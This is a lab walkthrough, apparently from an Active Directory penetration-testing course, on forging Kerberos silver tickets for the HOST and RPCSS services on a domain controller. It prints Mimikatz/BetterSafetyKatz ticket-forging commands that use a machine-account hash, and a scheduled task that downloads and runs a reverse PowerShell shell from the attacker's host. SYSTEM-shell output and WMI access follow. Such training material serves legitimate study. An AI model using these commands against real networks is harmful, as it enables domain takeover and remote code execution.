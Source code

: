 ```yaml
---
description: >-
  Task Get command execution on DC by creating a silver ticket for Host
  Service,  WMI.
---
```


# Obj 9 Silver Ticket for Host

{% hint style="success" %}
From the information gathered in previous steps we have the hash for machine account of the domain controller (dcorp-dc$). We are going to use this information to create a silver ticket for the Host service on the DC.
{% endhint %}

### Run the following command from an elevated shell

#### Silver Ticket - BetterSafetyKatz

```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:1e16be70054d1c5999aa53994e03e59c/startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

#### Silver Ticket - Mimikatz

```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:1e16be70054d1c5999aa53994e03e59c/startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

### Start a netcat listener on the student vm

```
nc64.exe -lvnp 443
```

### We need to run a modified reverse powershell script

```
Create a copy of Invoke-PowerShellTcp.ps1 and rename it to Invoke-PowerShellTcpEx.ps1.
-Open Invoke-PowerShellTcpEx.ps1 in PowerShell ISE (Right click on it and click Edit).
-Add Power -Reverse -IPAddress 172.16.100.X-Port 443
to the end of the file.
```

{% hint style="info" %}
Remember to serve this newly created file up on HFS.exe or similar
{% endhint %}

### Now, Lets create a task on the DC to download our new script

```
schtasks /create /S dcorp-dc /SC Weekly /RU "NT Authority\SYSTEM" /TN "UserX" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.X/Invoke-PowerShellTcpEx.ps1''')'"
```

### Now we can run the task to run our script

```
schtasks /Run /S dcorp-dc.dollarcorp.moneycorp.local /TN "UserX"
```

### We should have gotten a call back on our listener as nt/authority!

```
PS C:\Windows\system32>hostname
dcorp-dcPS 
C:\Windows\system32> whoami
nt authority\system
```

## <mark style="color:orange;">- PART 2 - This is the same result as above just another way to do it</mark>

{% hint style="info" %}
For accessing WMI, we need to create two tickets –one for HOST service and another for RPCSS.Run the below commands from an elevated shell:
{% endhint %}

### Create Silver Ticket

```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local/service:HOST /rc4:1e16be70054d1c5999aa53994e03e59c/startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

### Inject a ticket for RPCSS

```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:RPCSS /rc4:1e16be70054d1c5999aa53994e03e59c/startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

### Check to make sure the ticket is present

```
klist
```

{% hint style="info" %}
\#0> Client: Administrator @ dollarcorp.moneycorp.local

Server: <mark style="color:red;">RPCSS/dcorp-dc.dollarcorp.moneycorp.local</mark> @ dollarcorp.moneycorp.local <mark style="color:red;"></mark> KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)Ticket Flags 0x40a00000 -> forwardable renewable pre\_authentStart Time: 11/16/2021 13:36:23 (local)End Time: 11/16/2021 23:36:23 (local)Renew Time: 11/23/2021 13:36:23 (local)Session Key Type: RSADSI RC4-HMAC(NT)Cache Flags: 0Kdc Called:



\#1> Client: Administrator @ dollarcorp.moneycorp.local

Server: <mark style="color:red;">HOST/dcorp-dc.dollarcorp.moneycorp.local</mark> @ dollarcorp.moneycorp.local
{% endhint %}

### Now we can try to run WMI commands on the DC

```
PS C:\AD\Tools> Get-WmiObject -Class win32_operatingsystem -ComputerName dcorp-dc
```
